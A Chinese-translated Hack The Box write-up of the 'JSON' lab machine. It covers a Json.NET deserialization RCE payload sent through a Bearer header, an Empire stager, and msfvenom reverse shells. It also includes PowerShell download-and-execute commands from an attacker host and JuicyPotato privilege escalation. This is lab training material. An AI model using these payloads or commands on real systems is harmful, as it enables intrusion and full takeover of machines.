# [HTB]JSON-报道

> 原文：<https://infosecwriteups.com/htb-json-write-up-6f91f89bcbf1?source=collection_archive---------1----------------------->


欢迎来到 JSON box 专栏！这是一个中等难度的盒子，玩起来很有趣。对于最初的 shell，您需要识别与网站上基于 JSON 的反序列化相关的漏洞，通过利用这个与`Bearer:`头合并的问题，您可以获得一个 RCE。对于根 shell，您可以利用为初始用户`SeImpersonatePrivilege`配置的许可权限来执行 JuicyPotato 攻击，以获得系统 shell。让我们开始吧。



# 侦察

## Nmap

像往常一样，让我们从基本的 Nmap 发现扫描开始:

```
nmap -Pn --open -sC -sV -p- -T4 10.10.10.158
```



通过扫描，我们发现了一些有趣的端口:

*   **FTP(21/TCP)**—**不允许匿名登录*
*   **HTTP (80/TCP)**
*   **SMB(445/TCP)**—**不允许空会话*
*   **WinRM(5985/TCP)**—** Windows 远程管理(WinRM)的默认端口。如果我们有一个属于“远程管理用户”组的用户及其凭证，我们就可以获得一个利用该服务的远程 shell。然而，这并不需要在这个盒子上获得一个初始外壳。*

## Web 服务器(HTTP — 80/TCP)

所以从最初的扫描来看，看起来我们需要首先关注 web 服务器。



首页是一个登录页面，它是用弱凭据配置的:

`Username = admin : Password = admin`



一旦作为“管理员”用户登录，网站本身就陷入了死胡同。页面和功能要么是静态的，要么是 404 未找到。

## 网络服务器—目录搜索

当您的目标是 web 服务器时，建议进行目录强制，以检查是否有任何隐藏的文件/文件夹。我使用了 [Dirsearch](https://github.com/maurosoria/dirsearch) 工具来完成这个任务。



/file/password . txt

在`/files`文件夹下有一个`password.txt`文件，但它是一个巨魔。-_-



不过在`/api`目录下发现了一个有趣的文件`Account`。

## Web 服务器—登录(JSON Web 令牌)

现在，让我们把重点放在登录功能上。您可以使用 Burp 代理来捕获登录，以检查正在发生的事情。



如您所见，它对 web 服务器进行基于 JSON 的认证。让我们根据这个`POST`请求来检查 web 响应。



因此，一旦我们通过了身份验证，它就会为我们提供`OAuth2`访问令牌，以 JWT (JSON Web Token)格式授予进一步的访问权限。仅供参考:

> OAuth2 是一种协议，它允许用户向另一个站点授予对他们在一个站点上的资源的有限访问权，而不必暴露他们的凭证。
> 
> **JWT** 可以用作 OAuth2 [承载令牌](https://oauth.net/2/bearer-tokens/)以将接入令牌的所有相关部分编码到接入令牌本身中，而不是必须将它们存储在数据库中。

我们也可以通过 base64 解码`OAuth2`令牌值来确认这一点。

```
echo -n "eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciBBZG1pbiBIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0=" | base64 -d{"Id":1,"UserName":"admin","Password":"21232f297a57a5a743894a0e4a801fc3","Name":"User Admin HTB","Rol":"Administrator"}
```

此外，您还可以看到，使用之前找到的`/api/Account`文件，经过身份验证的会话实际上在其 cookie 头中包含了 JWT 令牌。

*   以管理员用户身份登录之前:



*   以管理员用户身份登录后:



# 初始外壳

## JSON 反序列化攻击

由于当前用户的 JWT 可以从`/api/Account` API 请求中检索，我们可以通过使用`Bearer:`头来检查这个请求是否容易受到反序列化的攻击。

**1。添加一个纯** `**Bearer:**` **表头:**



当我们添加一个没有值的`Bearer:`头时，我们得到一个`null`响应。

**2。将当前** `**OAuth2**` **值添加到** `**Bearer:**` **表头:**



当我们添加一个带有当前 base64 编码的`OAuth2`值的`Bearer:`头时，我们得到一个解码的 cookie 值。

**3。将随机值添加到** `**Bearer:**` **标题:**



当我们这次添加一个随机值(“bigb0ss”)时，我们得到一个 JSON.Net 反序列化错误。这很有意思。进一步的调查发现，我们可以得到一个滥用这个反序列化问题的 RCE。我能够从 GitHub 的 [Yosoerial](https://github.com/pwntester/ysoserial.net) 工具中找到一个非常酷的 PoC 有效载荷。我简单地复制并粘贴了 JSON.net 有效载荷，修改了命令的`$value:`部分，并手动对有效载荷进行了 base64 编码以执行攻击。

## JSON 反序列化攻击— RCE

这是更盲目的 RCE，所以我们可以做一个快速的`ping`命令，看看我们是否有一个成功的 RCE。

```
**### Creating a payload.txt file** 
cat payload.txt{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':**['cmd','  /c ping 10.10.14.29']**
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
} **### Base64-encoded payload.txt**
cat payload.txt | base64ewogICAgJyR0eXBlJzonU3lzdGVtLldpbmRvd3MuRGF0YS5PYmplY3REYXRhUHJvdmlkZXIsIFByZXNlbnRhdGlvbkZyYW1ld29yaywgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPTMxYmYzODU2YWQzNjRlMzUnLAogICAgJ01ldGhvZE5hbWUnOidTdGFydCcsCiAgICAnTWV0aG9kUGFyYW1ldGVycyc6ewogICAgICAgICckdHlwZSc6J1N5c3RlbS5Db2xsZWN0aW9ucy5BcnJheUxpc3QsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OScsCiAgICAgICAgJyR2YWx1ZXMnOlsnY21kJywnICAvYyBwaW5nIDEwLjEwLjE0LjI5J10KICAgIH0sCiAgICAnT2JqZWN0SW5zdGFuY2UnOnsnJHR5cGUnOidTeXN0ZW0uRGlhZ25vc3RpY3MuUHJvY2VzcywgU3lzdGVtLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OSd9Cn0K **### Running payload with Curl**
curl -X GET '[http://10.10.10.158/api/Account'](http://10.10.10.158/api/Account') -H 'Bearer: ewogICAgJyR0eXBlJzonU3lzdGVtLldpbmRvd3MuRGF0YS5PYmplY3REYXRhUHJvdmlkZXIsIFByZXNlbnRhdGlvbkZyYW1ld29yaywgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPTMxYmYzODU2YWQzNjRlMzUnLAogICAgJ01ldGhvZE5hbWUnOidTdGFydCcsCiAgICAnTWV0aG9kUGFyYW1ldGVycyc6ewogICAgICAgICckdHlwZSc6J1N5c3RlbS5Db2xsZWN0aW9ucy5BcnJheUxpc3QsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OScsCiAgICAgICAgJyR2YWx1ZXMnOlsnY21kJywnICAvYyBwaW5nIDEwLjEwLjE0LjI5J10KICAgIH0sCiAgICAnT2JqZWN0SW5zdGFuY2UnOnsnJHR5cGUnOidTeXN0ZW0uRGlhZ25vc3RpY3MuUHJvY2VzcywgU3lzdGVtLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OSd9Cn0K'
```

一旦我们运行上面的`curl`命令，我们将看到来自 JSON box 的 ICMP 回应请求。我们有一个成功的 RCE 在盒子上。:)



## JSON 反序列化攻击—反向外壳

对于反壳，有多种获取方式。我使用 Empire `launch.bat` payload 来获得一个初始代码执行，并上传`msfvenom`来创建一个`exe`文件以获得一个交互式的`meterpreter` shell。

## **帝国**

```
**### Listener Configuration**
uselistener http
set Host [http://<Attacker IP>](http://10.10.14.29)
execute
listeners**### Creating Payload**
usestager windows/launcher.bat
set Listener http
generate
```

一旦创建了`launch.bat`有效载荷，就将一行程序的`powershell`部分复制到我们的反序列化有效载荷中。

```
**### Empire payload.txt**
cat payload_EMPIRE.txt{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':[**'powershell','powershell -noP -sta -w 1 -enc  SQBGACgAJABQAFMAVgBlAHIAUwBpAG8ATgBUAGEAQgBsAGUALgBQAFMAVgBlAFIAcwBJ
*...SNIP...* aABBAFIAWwBdAF0AKAAmACAAJABSACAAJABkAEEAdABBACAAKAAkAEkAVgArACQASwApACkAfABJAEUAWAA='**]
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}JaABBAFIAWwBdAF0AKAAmACAAJABSACAAJABkAEEAdABBACAAKAAkAEkAVgArACQASwApACkAfABJAEUAWAA=']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

同样，对`payload_EMPIRE.txt`进行 base64 编码，然后用`curl`命令运行它，得到一个帝国代理。

```
**### Running payload with Curl**
curl -X GET '[http://10.10.10.158/api/Account'](http://10.10.10.158/api/Account') -H 'Bearer:<Base64-encoded payload_EMPIRE.txt>
```



## user.txt

web 服务器运行在`userpool`用户的上下文中，我们有特权读取`user.txt`文件。



## 水表读数器

```
**### Msfvenom Payload**
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.29 LPORT=443 -f exe > shell.exe
```

然后，我们可以通过当前的 Empire shell 将创建的`shell.exe`上传到 JSON box 上。

```
**### Empire Uploading Payload**
shell powershell.exe iwr -Uri [http://10.10.14.29:8000/shell.exe](http://10.10.14.29:8000/shell.exe) -outfile shell.exe**### Empire Executing Payload**
shell cmd /c shell.exe
```



# 特许升级

## JuicyPotato(SeImpersonatePrivilege—已启用)

我们需要做的第一件事是找出当前用户的特权种类`userpool`。

```
c:\Users\userpool>whoami /priv
```



我们可以看到我们已经启用了`SeImpersonatePrivilege`，我们可以进行`JuicyPotato`攻击来获取系统外壳以提升我们的权限。此外，这个机器是一个有点旧的 Windows 2012 R2 服务器，所以它可能是一个正确的路径来执行此攻击。

我发现一个很好的自动化`JuicyPotato`攻击 [PowerShell 脚本](https://github.com/TsukiCTF/Lovely-Potato)由 TsukiCTF 团队创建，名为`Lovely-Potato`。让我们用这个来得到我们性感的系统外壳。我们只需要创建另一个 msfvenom 反向 shell 有效负载，并将其托管在我们自己的 web 服务器上。然后，我们只需要在目标框上运行`Invoke-LovelyPotato.ps1`。让我们开始吧。

## 攻击者箱

```
**### Creating Msfvenom Payload**
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.29 LPORT=444 -f exe -o meterpreter.exe **### Modify "Invoke-LovelyPotato.ps1" Configuration Section**
# Configuration
$RemoteDir = 'http://10.10.14.29:8000'    ** # Attacker box web server**
$LocalPath = 'C:\Temp'          ** # Writable folder on the target box****### Running Multi/handler**
```



## 目标框

在当前的`meterpreter`会话中，我们可以简单地运行下面的 PowerShell 命令。

```
**### PowerShell Lovely-Potato**
powershell.exe -nop "IEX(New-Object Net.WebClient).DownloadString('[http://10.10.14.29:8000/Invoke-LovelyPotato.ps1'](http://10.10.14.29:8000/Invoke-LovelyPotato.ps1'))"
```

一旦我们运行该命令，我们将看到从我们的 web 服务器中提取的文件。


大约 5 到 10 分钟后，我们将在 JSON 框中得到以下输出。



在我们的`multi/handler`上，我们成功接收了一个高架系统外壳。:)



有了这个访问权限，我们就可以继续读取`root.txt`文件了。



# 结论

这是一个很好的中等难度的盒子，有一些有趣的攻击媒介。老实说，我真的很喜欢滥用 JSON 反序列化来在机器上执行代码。对于根，这是一个有点直截了当的特权升级，但我听说还有两(2)个其他升级路径被其他玩家发现。我可能会在这里覆盖/添加它们，以便将来更新文章。:)

感谢阅读！

